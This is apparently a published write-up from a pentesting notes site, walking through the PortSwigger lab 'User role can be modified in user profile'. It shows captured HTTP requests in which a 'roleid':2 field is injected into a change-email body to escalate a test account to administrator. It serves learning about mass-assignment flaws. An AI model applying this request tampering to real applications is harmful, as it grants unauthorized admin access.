

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/access-control/user-role-modifiable-in-profile/index.html · generator: mkdocs

---
title: "Lab: User role can be modified in user profile"
description: "Mass-assignment privilege escalation — adding a roleid field to the change-email request to become an administrator."
tags:
  - Web
  - Access Control
  - Privilege Escalation
  - Mass Assignment
  - PortSwigger
---

# User role can be modified in user profile

**Lab:** PortSwigger Web Security Academy — *User role can be modified in user profile* (Practitioner).

> This lab has an admin panel at `/admin`, only accessible to logged-in users with a `roleid` of `2`. Solve the lab by accessing the admin panel and using it to delete the user `carlos`. Credentials: `wiener:peter`.

This is a **mass-assignment** access-control flaw. The profile-update endpoint accepts a JSON body and binds whatever fields it receives straight onto the user record — including `roleid`, which controls privilege. By adding that field ourselves we promote our own account.

## 1. Capture the change-email request

Log in as `wiener:peter`, go to **My account**, submit the *Update email* form, and capture the request in Burp. The account page is a JSON API: the update sends `{"email":"..."}` and the response echoes the full user object, which reveals the field that matters — `roleid`:

![My account page with the email update form](images/user-role-modifiable-in-profile/image.png)

```http
POST /my-account/change-email HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=...
Content-Type: text/plain;charset=UTF-8

{
    "email":"hello@vapt.in"
}
```

The response includes the current role:

```json
{
    "username":"wiener",
    "email":"hello@vapt.in",
    "apikey":"4kPxWBbb6Jm2uS84wuyPoOeoEsw8dbfN",
    "roleid":1
}
```

![The change-email request and response showing roleid:1](images/user-role-modifiable-in-profile/image-1.png)

## 2. Add roleid to the request body

Send the request to Repeater and add a `roleid` field with the admin value `2` to the JSON body:

```http
POST /my-account/change-email HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=...
Content-Type: text/plain;charset=UTF-8

{
    "email":"hello@vapt.in",
    "roleid":2
}
```

The response now shows `"roleid":2` — the endpoint accepted and stored our injected field:

![The response confirming roleid is now 2](images/user-role-modifiable-in-profile/image-2.png)
